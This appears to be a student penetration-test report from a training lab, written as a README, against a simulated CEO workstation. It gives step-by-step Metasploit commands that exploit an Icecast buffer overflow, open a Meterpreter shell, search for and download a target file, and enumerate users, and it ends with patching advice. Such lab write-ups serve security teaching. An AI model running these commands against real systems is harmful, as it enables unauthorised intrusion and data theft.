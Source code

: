 # Penetration_Test_Engagement

In this activity, I played the role of an independent penetration tester hired by "GoodCorp Inc." to perform security tests against their CEO's workstation.

## GoodSecurity Penetration Report

JosephMossman@GoodSecurity.com

### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.

### 2.0 Findings

**Machine IP:**

192.168.0.20

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

Icecast Header Overwrite

![Icecast_Vulnerability](Screenshots/search_icecast_command.png)

**Vulnerability Explanation:**
 
The Icecast Header Overwrite vulnerability running on 192.168.0.20 Host allows a buffer overflow exploit that lets an attacker system gain remote control of the victim system by overwriting the memory on the system. The exploit writes past the end of a pointer array when receiving 32 HTTP headers. This allowed for a variety of remote actions, such as file discovery and download, key logging, screen capture, and privilege escalation to Administrator.

**Severity:**

The severity of this vulnerability is High, with a CVSS score of 7.5.

**Proof of Concept:**

Perform a service and version scan using Nmap to determine which services are up and running:

-Run the Nmap command that performs a service and version scan against the target.

**Answer:** nmap -sV 192.168.0.20

![nmap](Screenshots/nmap_command.png)

From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

-Run the SearchSploit commands to show available Icecast exploits.

**Answer:** searchsploit icecast

![searchsploit_icecast](Screenshots/searchsploit_icecast_command.png)

Now that we know which exploits are available to us, let's start Metasploit:

-Run the command that starts Metasploit:

**Answer:** msfconsole

![msfconsole](Screenshots/msfconsole_command.png)
 
Search for the Icecast module and load it for use.

-Run the command to search for the Icecast module:

**Answer:** search icecast

![search_icecast](Screenshots/search_icecast_command.png)
 
-Run the command to use the Icecast module:

**Answer:** use 0

![use](Screenshots/use_0_command.png)
 
-Run the command that sets the RHOST:

**Answer:** set RHOST 192.168.0.20

![RHOST](Screenshots/use_rhost_command.png)
 
-Run the command that runs the Icecast exploit.

**Answer:** exploit

![exploit](Screenshots/exploit_command.png)
 
You should now have a Meterpreter session open.

-Run the command that performs a search for the secretfile.txt on the target.

**Answer:** search -f *secretfile*.txt

![secretfile](Screenshots/secretfile_command.png)

-Run the command to performs a search for the recipe.txt on the target:

**Answer:** search -f *recipe*.txt

![recipe](Screenshots/recipe_command.png)

-Run the command that ex-filtrates the recipe*.txt file:

**Answer:** download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’

![exfiltrate](Screenshots/exfiltrate_recipe_command.png)

Verify that you have successfully downloaded the file.

-**Verification:**

![verification](Screenshots/verify_drinks.png) 

You can also use Meterpreter's local exploit suggester to find possible exploits.

-Run the command to use Meterpreter’s local exploit suggester.

**Answer:** run post/multi/recon/local_exploit_suggester

![exploit_suggestor](Screenshots/exfiltrate_recipe_command.png)

-Run a Meterpreter post script that enumerates all logged on users.

**Answer:** run post/windows/gather/enum_logged_on_users

![enum_users](Screenshots/logged_on_users_command.png)

-Run the command to open a Meterpreter shell and gather system information for the target.

**Answer:** shell

![shell](Screenshots/shell_command.png)

-Run the command that displays the target's computer system information:

**Answer:** systeminfo

![systeminfo](Screenshots/systeminfo_command.png)

### Separate findings for each vulnerability can be found below:

**Machine IP:**

192.168.0.20 Port 25

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

windows/local/ikeext_service

**Vulnerability Explanation:**

The ikeext_service vulnerability utilizes a missing Dynamic-link library (DLL) in Microsoft’s operating system that runs as SYSTEM and starts automatically in default installations of select windows operating systems. This vulnerability can be used for privilege escalation under the SYSTEM account. It requires an insecure bin path to plant the DLL payload.

**Severity:**

The severity of this vulnerability is Medium, with a CVSS score of 6.0.

**Proof of Concept:** 

![ikeext_proof](Screenshots/ikeext_vulnerability.png)

**Machine IP:**

192.168.0.20 Port 25

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

windows/local/ms16_075_reflection

**Vulnerability Explanation:**

The ms16_075_relfection vulnerability utilizes a reflection link between Distributed Component Object Model (DCOM) and Remote procedure call (RPC) that allows local users to use a crafted application to gain a SYSTEM handle for privilege escalation. The module does not start as SYSTEM by default. Once gaining a shell SYSTEM impersonation is possible.

**Severity:**

The severity of this vulnerability is Medium, with a CVSS score of 6.9.

**Proof of Concept:** 

![ms16_proof](Screenshots/ms16_075_reflection_vulnerability.png)

### 3.0 Recommendations

The Icecast Header Overflow exploit is an older vulnerability that can be fixed with a current patch. It is recommended to update to the latest version of Icecast, found here: https://icecast.org/download/

Other technical recommendations would be to encrypt all sensitive data and enable firewall rules to only allow traffic on needed ports. 
